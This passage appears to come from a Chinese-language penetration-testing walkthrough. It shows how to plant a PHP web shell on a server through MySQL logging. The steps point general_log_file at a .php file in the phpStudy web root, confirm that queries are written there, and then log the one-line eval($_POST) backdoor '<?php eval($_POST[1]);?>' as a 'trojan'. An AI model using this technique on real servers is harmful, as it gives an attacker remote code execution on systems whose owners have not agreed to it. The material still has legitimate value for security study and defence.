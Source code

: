 试修改日志的路径到网站根目录下，把日志加载到111.php里面：

```
set global general_log_file='C:/phpStudy/WWW/111.php';
```

![截图](c13221e13eac69869b8aff4ff699feb4.png)

![截图](bccf56224443ce036d69dbbf5aca04f6.png)

访问一下日志文件，刚刚执行的一些操作被记录在了日志中

![截图](48ffe1c77e5b1ce6975aa60cae520923.png)

##### 【第四步】：在日志中写入木马

```
SELECT '<?php eval($_POST[1]);?>';
```
